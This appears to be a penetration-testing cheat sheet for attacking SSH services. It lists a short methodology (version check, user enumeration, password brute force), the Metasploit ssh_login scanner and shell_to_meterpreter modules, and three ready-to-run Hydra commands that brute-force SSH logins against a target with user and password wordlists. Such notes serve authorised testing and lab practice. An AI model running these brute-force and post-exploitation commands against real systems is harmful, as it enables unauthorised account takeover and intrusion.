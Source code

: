 1) Check version and vulnerability
2) Enum users
3) Get password from another port or brute force it
4) If you have key connect with key

 use auxiliary/scanner/ssh/ssh_login
 use post/multi/manage/shell_to_meterpreter

Hydra SSH using list of users and passwords

`hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

Hydra SSH using a known password and a username list

`hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

Hydra SSH Against Known username on port 22

`hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt`
